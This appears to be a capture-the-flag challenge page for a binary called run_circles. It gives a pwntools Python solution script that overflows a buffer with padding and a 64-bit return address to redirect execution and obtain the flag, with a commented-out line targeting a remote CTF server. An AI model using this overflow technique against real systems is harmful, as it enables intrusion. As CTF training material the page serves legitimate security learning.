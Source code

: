 #### Goals
 * Get the flag

#### Solution
```python
#!/usr/bin/env python

from pwn import *

# context(os='linux', arch='amd64', log_level='debug')

Io = process("./run_circles")
#Io = remote("pwn.sniperoj.cn", 30013)

Io.sendline("1024")
Io.sendline("A")
Io.sendline("B" * 256 + "C" * 24 + p64(0x400806))
Io.sendline("0")

Io.interactive()
```



#### Writeups
 * [Offical Writeup]()
 * [Other Writeup]()


